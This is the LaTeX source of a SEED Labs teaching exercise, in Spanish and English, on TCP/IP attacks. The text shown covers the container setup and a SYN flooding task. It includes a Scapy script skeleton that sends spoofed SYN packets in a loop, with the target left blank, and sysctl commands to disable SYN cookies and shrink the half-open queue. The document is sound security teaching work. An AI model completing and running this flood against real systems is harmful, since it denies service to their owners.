%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}






\newcommand{\telnet} {\texttt{telnet}\xspace}
\newcommand{\tcpFigs}{./Figs}

\lhead{\bfseries SEED Labs -- Laboratorio de Ataques TCP/IP}

\begin{document}

\newcounter{task}
\setcounter{task}{1}
\newcommand{\mytask} {\bf {\noindent \arabic{task}} \addtocounter{task}{1} \,}



\begin{center}
{\LARGE Laboratorio de Ataques TCP/IP}
\end{center}

\seedlabcopyright{2018 - 2020}



% *******************************************
% SECTION
% ******************************************* 
\section{Descripción General}

El objetivo de este laboratorio es que el estudiante gane experiencia en vulnerabilidades como también en ataques contra esas vulnerabilidades. Los sabios aprenden de sus errores. En la educación de la seguridad informática, estudiamos errores que terminan siendo vulnerabilidades en el software. Estudiar los errores del pasado no sólo ayuda a los estudiantes a entender porque los sistemas son vulnerables, porque un descuido inofensivo en aparencia puede desembocar en un desastre, y porque son necesarios tantos mecanismos de seguridad. Sino que aún más importante ayuda a los estudiantes a entender los patrones comúnes en las vulnerabilidades y evitar cometer los errores del pasado en el futuro. Además usando esas vulnerabilidades como casos de estudio, los estudiantes pueden aprender los principios del diseño seguro, del desarrollo seguro y del testeo en la seguridad informática.

Las vulnerabilidades en los protolos TCP/IP representan un tipo de género especial dentro de los que son las vulnerabilidades en el diseño y la implementación de los protocolos; Nos muestran una lección fundamental y es que la seguridad debe ser concebida desde el momento en que se empieza a diseñar y no después. Por otra parte estudiar esas vulnerabilidades ayuda a los estudiantes a comprender los desafíos de la seguridad en las redes y porque son necesarias tantas métricas de seguridad en estas.
En este laboratorio los estudiantes llevarán a cabo varios Ataques contra el protocolo TCP.
Este laboratorio cubre los siguientes tópicos:

\begin{itemize}[noitemsep]
\item El protocolo TCP
\item Ataque de TCP SYN flood y las SYN cookies 
\item Ataque de TCP reset 
\item Ataque de TCP session hijacking
\item Shell Reversa
\item En un laboratorio aparte se cubre un tipo especial de ataque llamado El Ataque de Mitnick o Mitnick Attack
\end{itemize}


\paragraph{Lecturas y Videos.}
Para una cobertura más detallada sobre Ataques TCP puede consultar

\begin{itemize}
\item Capítulo 16 del libro de SEED, \seedbook
\item Sección 6 del curso de SEED en Udemy, \seedisvideo
\end{itemize}


\paragraph{Entorno de Laboratorio.} \seedenvironmentC



% *******************************************
% SECTION
% ******************************************* 
\section{Entorno de Laboratorio}

Para este laboratorio, necesitamos tener al menos tres máquinas. Usaremos contenedores para configurar el entorno del laboratorio. La Figura \ref{tcp:fig:labsetup} describe la configuración del entorno.
Usaremos el contenedor del atacante para atacar mientras que los tres contenedores restantes serán la máquina víctima y la de los usuarios.
Se asume que todas las máquinas están en la misma LAN.
Los estudiantes pueden optar por usar máquinas virtuales en vez de contenedores, aunque la última opción es más conveniente.


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\commonfolder/Figs/OneLan.pdf}
\end{center}
\caption{Configuración del entorno}
\label{tcp:fig:labsetup}
\end{figure}
 

%\begin{lstlisting}[backgroundcolor=]
%  +------------+      +------------+  +------------+  +------------+
%  |  Attacker  |      |   Victim   |  |    User 1  |  |   User 2   |
%  |  10.9.0.1  |      |  10.9.0.5  |  |  10.9.0.6  |  |  10.9.0.7  |
%  +----+-------+      +------+-----+  +------+-----+  +------+-----+
%       |                     | eth0          | eth0          | eth0
%       |                     |               |               |
%-------+---------------------+---------------+---------------+-------
%           Network  10.9.0.0/24
%
%\end{lstlisting}
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setup del Contenedor y sus Comandos}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para empezar a preparar el contenedor, deberá descargarse el archivo \texttt{Labsetup.zip} ubicado en el laboratorio correspondiente dentro del sitio web oficial y copiarlo dentro de la Máquina Virtual prevista por SEED. Una vez descargado deberá descomprimirlo y entrar dentro del directorio \texttt{Labsetup} donde encontrará el archivo \texttt{docker-compose.yml} que servirá para setear el entorno de laboratorio. Para una información más detallada sobre el archivo \texttt{Dockerfile} y otros archivos relacionados, puede encontrarla dentro del Manual de Usuario del laboratorio en uso, en el sitio web oficial de SEED.

Si esta es su primera experiencia haciendo el setup del laboratorio usando contenedores es recomendable que lea el manual anteriormente mencionado.

A continuación, se muestran los comandos más usados en Docker y Compose.
Debido a que estos comandos serán usados con mucha frecuencia, hemos creados un conjunto de alias para los mismos, ubicados en del archivo \texttt{.bashrc} dentro de la Máquina Virtual provista por SEED (Ubuntu 20.04)

\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


Dado que todos los contenedores estarán corriendo en un segundo plano. Necesitamos correr comandos para interactuar con los mismos, una de las operaciones fundamentales es obtener una shell en el contenedor. 
Para este propósito usaremos \texttt{"docker ps"} para encontrar el ID del contenedor deseado y ingresaremos \texttt{"docker exec"} para correr una shell en ese contenedor.
Hemos creado un alias para ello dentro del archivo \texttt{.bashrc}

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}

En caso de problemas configurando el entorno, por favor consulte la sección ``Common Problems'' en el manual ofrecido por SEED. 


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

 
% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{El Contenedor del Atacante}

Para este laboratorio, podemos usar la Máquina Virtual o el Contenedor como la máquina del Atacante. Si hecha un vistazo al archivo de Docker Compose, verá que el contenedor del Atacante está configurado de manera diferente del resto de los contenedores. 

\begin{itemize}
\item \textit{Directorio Compartido.} Cuando usemos el contenedor del atacante para lanzar los ataques, necesitamos poner el código de ataque dentro del contenedor.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in containers, 
because we can use our favorite editors.
In order for the VM and container to share files, 
we have created a shared folder between the VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\item \textit{Modo Host.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
In this lab, the attacker needs to be able to sniff packets,
but running sniffer programs inside a container has problems, because
a container is effectively attached to a virtual switch, 
so it can only see its own traffic, and it is never going to see 
the packets among other containers. To solve this problem,
we use the \texttt{host} mode for the attacker container. This
allows the attacker container to see all the traffics. The following
entry used on the attacker container:

\begin{lstlisting}
network_mode: host
\end{lstlisting}

When a container is in the \texttt{host} mode,  it sees
all the host's network interfaces, and it even has the same
IP addresses as the host. Basically, it is put in the
same network namespace as the host VM. However, the container
is still a separate machine, because its other namespaces are
still different from the host.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{itemize}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%\input{\commonfolder/container_interface}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{La cuenta seed} 

Para este laboratorio, necesitamos hacer telnet de un contenedor a otro.
Hemos creado una cuenta llamada \texttt{seed} dentro de todos los contenedores.
El password de la misma es \texttt{dees}. Puede usar esta cuenta para telnet.



% *******************************************
% SECTION
% *******************************************
\section{Tarea 1: Ataque de SYN Flooding}


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{\tcpFigs/TCP_SYN_Flooding.pdf}
  \end{center}
  \caption{Ataque SYN Flooding}
  \label{tcp:fig:synflooding}
\end{figure}
 

El SYN Flood es ataque del tipo DoS, en el cual el atacante envía muchos requests SYN hacia un puerto TCP de la máquina víctima, pero el atacante no tiene la intención de completar el proceso del 3-way handshake. Los atacantes pueden usar una dirección IP spoofeada o optar por descontinuar el proceso.
A través de este ataque, los atacantes pueden floodear la cola de las half-opened connections (es decir las conexiones que no han terminado de completar el proceso 3-way handshake y han logrado llegar hasta el SYN, SYN-ACK pero no dieron el ACK final) en la máquina de víctima, cuando esta cola se llena la víctima no puede recibir más conexiones. La Figura \ref{tcp:fig:synflooding} muestra este ataque.

El tamaño de la cola es establecido a través de una configuración global del sistema. En los sistemas Ubuntu, podemos chequear esta configuración usando el siguiente comando. El Sistema Operativo establece este valor basado en el total de memoria que el sistema tiene: mientras más memoria, este valor es más grande.

\begin{lstlisting}
# sysctl net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
\end{lstlisting}

Podemos usar el comando \texttt{"netstat -nat"} para chequear el uso que se está haciendo de esa cola, es decir el número de half-opened conections asociadas a un puerto que está a la escucha.
El estado de estas conexiones es \texttt {SYN-RECV}. Si se completa el 3-way handshake, el estado de las conexiones será {\tt ESTABLISHED}.


\paragraph{SYN Cookie como Contramedida:}
Por defecto Ubuntu tiene una contramedida activada para protegerse del SYN Flooding. Esta protección es llamada SYN cookie, esta entrará en juego si detecta que el sistema está siendo atacado por un ataque del tipo SYN Flooding.
en nuestro contenedor servidor de la víctima, hemos desactivado esta contramedida (puede ver la entrada \texttt{sysctls} en el archivo \texttt{docker-compose.yml}).
Para activarla o desactivarla podemos usar el comando \texttt{sysctl}:

\begin{lstlisting}
# sysctl -a | grep syncookies     (Display the SYN cookie flag) 
# sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
# sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)
\end{lstlisting}

Para poder usar \texttt{sysctl} para cambiar los valores globales de las variables del sistema dentro del contenedor, el contenedor necesita estar configurado con la entrada \texttt{"privileged: true"} (en nuestro caso el contenedor víctima).
Sin esta configuración, si corremos el comando anteriormente mencionado veremos el siguiente mensaje de error. El contenedor no ttiene los privilegios para realizar este cambio.

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
\end{lstlisting}





% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tarea 1.1: Lanzando el ataque usando Python}

Hemos provisto un programa de Python llamado \texttt{synflood.py}, pero
intencionalmente hemos omitido algunos datos esenciales en el código.
Este código envía paquetes TCP SYN spoofeadoos, con una dirección IP de origen, el puerto destino y el número de secuencia, generados de forma aleatoria.
Los estudiantes deberán de completar y terminar el código y usarlo para lanzar el ataque en la máquina víctima.


\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

Deje que el ataque se ejecute durante al menos un minuto, luego intente hacer telnet en la máquina de la víctima y vea si puede tener éxito. Es muy probable que
su ataque falle. Esto se debe a que múltiples problemas pueden contribuir al fracaso. del ataque. A continuación se enumeran las posibles causas de estos fallos y como abordarlas.

\begin{itemize}
  \item \textbf{Problema de Cache TCP:} Vea la nota abajo

  \item \textbf{Problema de VirtualBox:} If you are doing the attack from one VM against another VM, 
    instead of using our container setup, please see Note B below. This is not an issue
    if you are doing the attack using the container setup.

  \item \textbf{Problema de retransmisión TCP:} 
    After sending out the SYN+ACK packet, the victim machine will wait for 
    the ACK packet. If it does not come in time, TCP will retransmit the SYN+ACK packet. 
    How many times it will retransmit depends on the following kernel parameters (by default,
    its value is 5):
    
\begin{lstlisting}
# sysctl net.ipv4.tcp_synack_retries
net.ipv4.tcp_synack_retries = 5
\end{lstlisting}

    After these 5 retransmissions, TCP will remove the corresponding item
    from the half-open connection queue. Every time when an item is removed,
    a slot becomes open. Your attack packets and the legitimate 
    telnet connection request packets will fight for this opening.
    Our Python program may not be fast enough, and can thus lose to 
    the legitimate telnet packet. To win the competition, we can run multiple instances
    of the attack program in parallel. Please try this approach and 
    see whether the success rate can be improved. How many instances 
    should you run to achieve a reasonable success rate? 

  \item \textbf{El tamaño de la cola:}  
    How many half-open connections can be stored in the queue
    can affect the success rate of the attack. 
    The size of the queue be adjusted using the following command:

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_max_syn_backlog=80
\end{lstlisting}
     
    While the attack is ongoing, you can run one of the following commands 
    on the victim container to see
    how many items are in the queue. It should be noted that one fourth of the 
    space in the queue is reserved for ``proven destinations'' (see Note A below), 
    so if we set the size to 80, its actual capacity is about 60. 

\begin{lstlisting}
$ netstat -tna | grep SYN_RECV | wc -l
$ ss -n state syn-recv sport = :23 | wc -l
\end{lstlisting}

    Please reduce the size of the half-open connection queue on the 
    victim server, and see whether your success rate can improve. 
\end{itemize}


\paragraph{Nota A: Mecanismo de mitigación del Kernel.} On Ubuntu 20.04, if machine X
has never made a TCP connection to the victim machine, when the SYN flooding 
attack is launched, machine X will not be able to telnet into the 
victim machine. However, if before the attack, machine X
has already made a telnet (or TCP connection) to the victim machine, then X 
seems to be ``immune'' to the SYN flooding attack, and can
successfully telnet to the victim machine during the attack. 
It seems that the victim machine remembers past successful 
connections, and uses this memory when establishing
future connections with the ``returning'' client. 
This behavior does not exist in Ubuntu 16.04 and earlier versions.

This is due to a mitigation of the kernel: 
TCP reserves one fourth of the backlog queue for ``proven destinations'' 
if SYN Cookies are disabled. After making a TCP connection
from \texttt{10.9.0.6} to the server \texttt{10.9.0.5}, we can 
see that the IP address \texttt{10.9.0.6} is remembered (cached)
by the server, so they will be using the reserved slots
when connections come from them, and will thus not be 
affected by the SYN flooding attack.
To remove the effect of this mitigation method, we can 
